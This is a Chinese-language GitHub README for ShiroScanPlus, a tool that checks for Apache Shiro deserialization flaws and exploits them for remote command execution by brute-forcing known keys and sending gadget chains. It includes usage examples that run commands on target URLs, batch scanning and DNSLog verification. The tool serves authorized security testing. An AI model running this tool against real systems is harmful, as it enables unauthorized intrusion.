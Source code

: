 # ShiroScanPlus
ShiroScan_Plus是基于sv3nbeast/ShiroScan改进的增强版的Shiro反序列化一键检测工具

![](data/1.png)
 
## 声明
* 不推荐当做exp使用，效率问题。  
* 仅供安全人员验证,测试是否存在此漏洞。  
* **使用此工具检测必须遵守请使用者遵守[《中华人民共和国网络安全法》](http://www.npc.gov.cn/npc/xinwen/2016-11/07/content_2001605.htm) ，勿用于非授权的测试，本人不负任何连带法律责任。**  

## 新改动内容
1. 更正requirements，优化代码规范和逻辑问题，优化代码结构。 
2. 采用两种扫描模式，fast优先检测key，但漏报率特别高。full直接发送全部key的全部利用链，资源消耗大，准确度高。  
3. 如果full模式过慢，可以手动调整data/keys.txt中的内容。
4. 用[**Koalr**](https://github.com/zema1) 的利用链 CommonsCollectionsK1到K4替代CommonsCollections1到7
5. 为了Windows用户方便安装pycrypto，requirements_windows.txt中采用了pycryptodome==3.9.8
6. 增加参数解析，增加DNSLog验证、URL文件批量处理、输出到文件等功能，多个功能可以配合使用。  

## 原改动内容  

1. 新增4个利用链模块(CommonsCollections7-10)，预计增加成功率30%，已打包成新ysoserial的jar包，请勿更换
2. 增加多线程，虽模块增加但速度却提高300%
3. 集成51个key进行fuzz  
4. 输入命令自动进行bash编码，防止未了解此漏洞的人踩坑  

## 使用方法  
**运行环境为Python3**
```
* Windows安装依赖：pip install -r requirments_windows.txt  
* Linux安装依赖：pip install -r requirments_linux.txt  
* 获取帮助：python3 shiro_rce_plus.py --help
```

```
* 使用示例     
* Example：python3 shiro_rce_plus.py --mode fast --url https://url.com --command "whoami"
* Example: Python3 shiro_rce_plug.py --mode full --file urls.txt --command "whoami"
* Example: Python3 shiro_rce_plug.py --mode fast --verify --file urls.txt --dnslog "{randstr}.testdnslog.com"  
            --check "http://check.testdnslog.com/{randstr}/"  --flag "True"  
            --output res.txt
```  

## 帮助信息
```
* python3 shiro_rce_plus.py --help  
 ____  _     _          ____                  ____  _
/ ___|| |__ (_)_ __ ___/ ___|  ___ __ _ _ __ |  _ \| |_   _ ___
\___ \| '_ \| | '__/ _ \___ \ / __/ _` | '_ \| |_) | | | | / __|
 ___) | | | | | | | (_) |__) | (_| (_| | | | |  __/| | |_| \__ \
|____/|_| |_|_|_|  \___/____/ \___\__,_|_| |_|_|   |_|\__,_|___/

                           原作者： 斯文
                           修改：  Hack3rHan

usage: shiro_rce_plus.py [-h] [--mode {fast,full}] [--url URL] [--file FILE] [--command COMMAND] [--verify]
                         [--output OUTPUT] [--dnslog DNSLOG] [--flag FLAG] [--check CHECK]

optional arguments:
  -h, --help          show this help message and exit
  --mode {fast,full}  fast:快速扫描，先检测Key，准确度很差。| full:扫描全部利用链和全部Key的组合。
  --url URL           待检测单个URL。
  --file FILE         待检测URL文件，换行分割。
  --command COMMAND   要执行的命令。
  --verify            使用DNSLog验证。
  --output OUTPUT     输出到文件，文件不存在会自动创建。
  --dnslog DNSLOG     待触发的DNSlog URL，若存在{randstr}会被format。
  --flag FLAG         DNSlog检查页面包含的关键词。
  --check CHECK       检查DNSlog是否触发的URL，若存在{randstr}会被format。
```
## 其他
* 新利用链来自[**Koalr**](https://github.com/zema1) 的https://mp.weixin.qq.com/s/jV3B6IsPARRaxetZUht57w  
* 如果有帮助，请点个star哦，对应blog文章：http://www.svenbeast.com/post/tskRKJIPg/
* http://www.dnslog.cn/  验证推荐使用这个dnslog平台，速度比ceye.io要快很多
* 执行的命令带空格记得用""引起来

